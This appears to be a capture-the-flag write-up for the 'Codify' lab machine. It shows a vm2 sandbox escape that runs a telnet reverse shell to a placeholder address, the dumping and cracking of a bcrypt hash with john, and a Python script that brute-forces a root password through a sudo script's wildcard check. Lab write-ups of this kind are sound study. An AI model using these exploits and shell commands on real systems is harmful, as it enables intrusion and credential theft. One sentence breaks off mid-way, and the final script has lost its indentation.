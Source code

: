 # Notes
### IP:
10.10.11.239

### Difficulty:
Easy

### User flag:

### Root flag:



# Nmap scan:
`nmap -sV -p- 10.10.11.239 `

gives us:

```
PORT     STATE SERVICE VERSION                                 
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu 
Linux; protocol 2.0)                                           
80/tcp   open  http    Apache httpd 2.4.52                     
3000/tcp open  http    Node.js Express framework               
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:li
nux_kernel
```

There is a code editor on the website http://codify.htb/editor.
![[Pasted image 20231107000126.png]]

Looking behind the scenes we find this javascript code:

```javascript
const code = document.getElementById('code').value;
      const encodedCode = btoa(code);
      fetch('/run', {
        method: 'POST',
        headers: {
          'Content-Type': 'application/json'
        },
        body: JSON.stringify({ code: encodedCode })
      })
        .then(response => response.json())
        .then(data => {
          const output = document.getElementById('output');
          if (data.error) {
            output.innerHTML = `<textarea  rows="10" cols="50" class="form-control h-100" style="color: red;">Error: ${data.error}</textarea>`;
          } else {
            output.innerHTML = `<textarea  rows="10" cols="50" class="form-control h-100" style="color: green;">${data.output}</textarea>`;
          }
        })
        .catch(error => {
          console.error(error);
          const output = document.getElementById('output');
          output.innerHTML = `<div style="color: red;">Error: ${error.message}</div>`;
        });
    }
```

It sends a a post request to http://codify.htb/run after having base64 encoded the input of the user. Looking at the post request deeper, it looks like this:

```
POST /run HTTP/1.1

(a bunch of headers)

{
"code":"bGV0IGFzZGYgPSAic2FkZmciCmNvbnNvbGUubG9nKGFzZGYp"
}
```

Hmm, no matter what I did I could not get any remote code execution to work let's keep this on the backburner while we keep enumerating. 

# RCE with VM2

Going to the About page presents us with this. 
![[Pasted image 20231107014648.png]]Googling what VM2 is allows us to find a billion RCE CVE's with level critical. It's kind of funny how insanely vulnerable this library is haha.

I'm just going to copy paste some code from this PoC https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244 and use a telnet reverse shell so our code ends up looking like this:
```js
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('TF=$(mktemp -u);mkfifo $TF && telnet {IP ADDRESS} {PORT} 0<$TF | sh 1>$TF');
}
```

Setting up a listener and...
![[Pasted image 20231107015133.png]]
### We're in.

However we're the svc user so we cannot get the user flag just yet.

# Privilege escalation 

First thing we can do is spawn a shell with: `python3 -c 'import pty; pty.spawn("/bin/sh")'

Now, first thing we can do is go in the /var/www/ folder. Snooping around in here finds us the tickets.db file. Catting that out and...

`Gjoshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2`
### bingo!

We just need to crack that password with john and we're good to go.
`john joshua.hash -w=/usr/share/wordlists/rockyou.txt` where joshua.hash is `$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2` gives us the following password `spongebob1` what an absolutely amazing password.

All we need to do now is ssh into the machine with the password and we're in and can cat out the user.txt file.

# Getting root flag

As joshua doing sudo -l gives us this file `(root) /opt/scripts/mysql-backup.sh` that we can run as root. However when we run it as root we 

```python
import string  
import subprocess  
all = list(string.ascii_letters + string.digits)  
password = ""  
found = False  
  
while not found:  
for character in all:  
command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"  
output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout  
  
if "Password confirmed!" in output:  
password += character  
print(password)  
break  
else:  
found = True
```
